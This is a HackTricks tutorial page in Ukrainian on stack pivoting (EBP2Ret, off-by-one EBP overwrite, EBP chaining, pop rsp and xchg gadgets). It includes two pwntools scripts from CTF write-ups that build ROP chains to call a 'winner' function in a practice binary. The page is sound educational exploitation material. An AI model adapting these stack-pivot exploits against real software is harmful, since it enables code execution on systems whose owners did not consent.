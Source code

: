 # Stack Pivoting - EBP2Ret - EBP chaining

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ця техніка використовує можливість маніпулювати **Base Pointer (EBP)** для з'єднання виконання кількох функцій через обережне використання регістра EBP та послідовності інструкцій `leave; ret`.

Нагадаємо, що **`leave`** в основному означає:
```
mov               esp, ebp
pop               ebp
ret
```
І як **EBP знаходиться в стеку** перед EIP, можливо контролювати його, контролюючи стек.

### EBP2Ret

Ця техніка особливо корисна, коли ви можете **змінити регістр EBP, але не маєте прямого способу змінити регістр EIP**. Вона використовує поведінку функцій, коли вони закінчують виконання.

Якщо під час виконання `fvuln` вам вдасться впровадити **фальшивий EBP** у стек, який вказує на область пам'яті, де знаходиться адреса вашого shellcode (плюс 4 байти для врахування операції `pop`), ви можете непрямо контролювати EIP. Коли `fvuln` повертається, ESP встановлюється на це створене місце, а наступна операція `pop` зменшує ESP на 4, **ефективно вказуючи на адресу, збережену атакуючим там.**\
Зверніть увагу, що вам **потрібно знати 2 адреси**: ту, куди ESP буде йти, де вам потрібно буде записати адресу, на яку вказує ESP.

#### Конструкція експлойту

Спочатку вам потрібно знати **адресу, куди ви можете записати довільні дані / адреси**. ESP буде вказувати сюди і **виконає перший `ret`**.

Потім вам потрібно знати адресу, яку використовує `ret`, що **виконає довільний код**. Ви можете використовувати:

* Дійсну [**ONE\_GADGET**](https://github.com/david942j/one\_gadget) адресу.
* Адресу **`system()`**, за якою йдуть **4 байти сміття** та адреса `"/bin/sh"` (x86 біт).
* Адресу **гаджета `jump esp;`** ([**ret2esp**](ret2esp-ret2reg.md)), за якою йде **shellcode** для виконання.
* Деяку [**ROP**](rop-return-oriented-programing.md) ланцюг.

Пам'ятайте, що перед будь-якою з цих адрес у контрольованій частині пам'яті повинно бути **`4` байти** через **`pop`** частину інструкції `leave`. Було б можливим зловживати цими 4B, щоб встановити **другий фальшивий EBP** і продовжити контролювати виконання.

#### Off-By-One Exploit

Існує специфічний варіант цієї техніки, відомий як "Off-By-One Exploit". Він використовується, коли ви можете **змінити лише найменш значущий байт EBP**. У такому випадку, місце в пам'яті, що зберігає адресу для переходу з **`ret`**, повинно ділити перші три байти з EBP, що дозволяє подібну маніпуляцію за більш обмежених умов.

### **EBP Chaining**

Отже, помістивши контрольовану адресу в запис `EBP` стека та адресу для `leave; ret` в `EIP`, можливо **перемістити `ESP` на контрольовану адресу `EBP` зі стека**.

Тепер **`ESP`** контролюється, вказуючи на бажану адресу, а наступна інструкція для виконання - `RET`. Щоб зловживати цим, можливо помістити в контрольоване місце ESP наступне:

* **`&(наступний фальшивий EBP)`** -> Завантажити новий EBP через `pop ebp` з інструкції `leave`
* **`system()`** -> Викликаний через `ret`
* **`&(leave;ret)`** -> Викликаний після завершення системи, він перемістить ESP на фальшивий EBP і почне знову
* **`&("/bin/sh")`**-> Параметр для `system`

В основному, таким чином можливо з'єднати кілька фальшивих EBP для контролю потоку програми.

Це схоже на [ret2lib](ret2lib/), але складніше без очевидної вигоди, але може бути цікавим у деяких крайніх випадках.

Більше того, тут у вас є [**приклад виклику**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave), який використовує цю техніку з **витоком стека** для виклику виграшної функції. Це фінальний payload зі сторінки:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP не має сенсу

Як [**пояснено в цьому пості**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), якщо бінарний файл скомпільований з деякими оптимізаціями, **EBP ніколи не контролює ESP**, отже, будь-який експлойт, що працює шляхом контролю EBP, в основному зазнає невдачі, оскільки не має жодного реального ефекту.\
Це пов'язано з тим, що **пролог і епілог змінюються**, якщо бінарний файл оптимізований.

* **Не оптимізовано:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **Оптимізовано:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
ret                 # return
```
## Інші способи контролю RSP

### **`pop rsp`** гаджет

[**На цій сторінці**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp) ви можете знайти приклад використання цієї техніки. Для цього завдання потрібно було викликати функцію з 2 специфічними аргументами, і був **`pop rsp` гаджет** та є **leak з стеку**:
```python
# Code from https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/pop-rsp
# This version has added comments

from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16) # Leak from the stack indicating where is the input of the user
log.success(f'Buffer: {hex(buffer)}')

POP_CHAIN = 0x401225       # pop all of: RSP, R13, R14, R15, ret
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229     # pop RSI and R15

# The payload starts
payload = flat(
0,                 # r13
0,                 # r14
0,                 # r15
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,               # r15
elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
POP_CHAIN,
buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```
### xchg \<reg>, rsp gadget
```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```
## Посилання

* [https://bananamafia.dev/post/binary-rop-stackpivot/](https://bananamafia.dev/post/binary-rop-stackpivot/)
* [https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
